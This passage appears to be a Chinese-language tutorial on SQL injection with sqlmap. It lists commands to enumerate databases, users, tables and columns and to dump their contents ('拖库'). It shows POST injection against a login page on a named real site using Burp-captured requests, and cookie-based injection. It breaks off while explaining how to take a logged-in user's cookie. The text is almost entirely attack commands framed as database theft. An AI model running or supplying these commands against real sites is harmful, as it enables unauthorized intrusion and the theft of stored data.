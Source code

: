 sqlmap注入方式普及

0.详细参数详解：http://pan.baidu.com/share/link?shareid=503193&uk=3223979763

1. 基础用法：

./sqlmap.py -u “注入地址” -v 1 --dbs // 列举数据库

./sqlmap.py -u “注入地址” -v 1 --current-db // 当前数据库

./sqlmap.py -u “注入地址” -v 1 --users // 列数据库用户

./sqlmap.py -u “注入地址” -v 1 --current-user // 当前用户

./sqlmap.py -u “注入地址” -v 1 --tables -D “数据库” // 列举数据库的表名

./sqlmap.py -u “注入地址” -v 1 --columns -T “表名” -D “数据库” // 获取表的列名

./sqlmap.py -u “注入地址” -v 1 --dump -C “字段,字段” -T “表名” -D “数据库” // 获取表中的数据，包含列

已经开始拖库了，SQLMAP是非常人性化的，它会将获取的数据存储sqlmap/output/中、、、

2. sqlmap post注入

我们在使用Sqlmap进行post型注入时，

经常会出现请求遗漏导致注入失败的情况。

这里分享一个小技巧，即结合burpsuite来使用sqlmap，

用这种方法进行post注入测试会更准确，操作起来也非常容易。

1. 浏览器打开目标地址http:// www.2cto.com /Login.asp

2. 配置burp代理(127.0.0.1:8080)以拦截请求

3. 点击login表单的submit按钮

4. 如下图，这时候Burp会拦截到了我们的登录POST请求

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：

./sqlmap.py -r search-test.txt -p tfUPass

这里参数-r 是让sqlmap加载我们的post请求rsearch-test.txt，

而-p 大家应该比较熟悉，指定注入用的参数。

3，sqlmap cookies注入

sqlmap.py -u "http://127.0.0.1/base.php" --cookies "id=1" --dbs --level 2

2.默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用--level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我们直接在原有的基础上面加上 --level 2 即可

利用sqlmap cookies注入突破用户登录继续注入

先把用户登陆的cookie拿到吧，

在收藏夹添加一个链接cookies属性：

名字自己取
